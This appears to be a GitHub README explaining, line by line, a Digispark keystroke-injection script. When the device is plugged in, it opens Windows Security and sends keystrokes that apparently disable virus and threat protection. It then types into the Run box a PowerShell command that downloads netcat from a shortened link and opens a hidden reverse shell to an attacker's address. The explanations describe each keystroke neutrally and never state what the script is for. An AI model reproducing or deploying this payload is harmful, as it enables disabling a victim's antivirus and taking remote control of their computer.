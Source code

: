 <h2> <div align="center"><i>This script uses the DigiKeyboard library to automate keystrokes and input text Here is a breakdown of each line of code:</i></div></h2>

<code><div align="center"><color="#00979C">"#include "DigiKeyboard.h"</code>

<em><div align="center"><code>This line includes the header file "DigiKeyboard.h," which provides the necessary definitions and functions for interacting with the DigiKeyboard.</code></em></div>

<code color="#00979C">void setup(){</code>
<em><div align="center"><code>This marks the beginning of the setup() function, which is a special function in Arduino that is called once when the board is powered on or reset.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(1000);</code>

<em><div align="center"><code>This line introduces a delay of 1000 milliseconds (1 second) in the program execution.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</code>

<em><div align="center"><code>This line simulates pressing the 'S' key along with the left GUI (Windows key) modifier using the sendKeyStroke() function.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(1000);</code>

<em><div align="center"><code>Another delay of 1000 milliseconds is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.print("virus & threat protection");</code>

<em><div align="center"><code>The print() function is used to simulate typing the string "virus & threat protection" as keystrokes.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(500);</code>

<em><div align="center"><code>A delay of 500 milliseconds (0.5 seconds) is added.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>

<em><div align="center"><code>The sendKeyStroke() function simulates pressing the Enter key.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(5000);</code>

<em><div align="center"><code>A delay of 5000 milliseconds (5 seconds) is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(43);</code>

<em><div align="center"><code>The sendKeyStroke() function is used to simulate tapping a key with the code 43. The specific key associated with code 43 may vary depending on the keyboard layout.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>

<em><div align="center"><code>Another Enter key press is simulated.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(700);</code>

<em><div align="center"><code>A delay of 700 milliseconds (0.7 seconds) is added.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>

<em><div align="center"><code>Yet another Enter key press is simulated.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(700);</code>

<em><div align="center"><code>Another delay of 700 milliseconds is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_SPACE);</code>

<em><div align="center"><code>The sendKeyStroke() function simulates pressing the Space key.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(2000);</code>

<em><div align="center"><code>A delay of 2000 milliseconds (2 seconds) is added.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</code>

<em><div align="center"><code>The sendKeyStroke() function is used to simulate pressing the 'Y' key along with the left Alt modifier.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(1000);</code>

<em><div align="center"><code>A delay of 1000 milliseconds (1 second) is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code>

<em><div align="center"><code>The sendKeyStroke() function is used to simulate pressing the F4 key along with the left Alt modifier. This combination is often used to close the active window in Windows.</code></em></div>
<code color="#00979C">DigiKeyboard.delay(500);</code>

<em><div align="center"><code>A delay of 500 milliseconds (0.5 seconds) is added.</code></em></div>
<code color="#00979C"><code>DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</code>

<em><div align="center"><code>The sendKeyStroke() function is used to simulate pressing the 'R' key along with the left GUI (Windows key) modifier.</code></em></div>
<code color="#00979C">DigiKeyboard.delay(700);</code>

<em><div align="center"><code>A delay of 700 milliseconds (0.7 seconds) is introduced.</code></em></div>
<code color="#00979C">DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");</code>

<em><div align="center"><code>The print() function is used to simulate typing the provided string, which contains a PowerShell command.</code></em></div>
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>

<em><div align="center">The sendKeyStroke() function is used to simulate pressing the Enter key.</code></em></div> <code color="#00979C">void loop(){}</code>

<em><div align="center"><code>This is the loop() function, which runs repeatedly after the setup() function. However, in this code, the loop() function is empty, so it doesn't contain any specific instructions.</code></em></div>




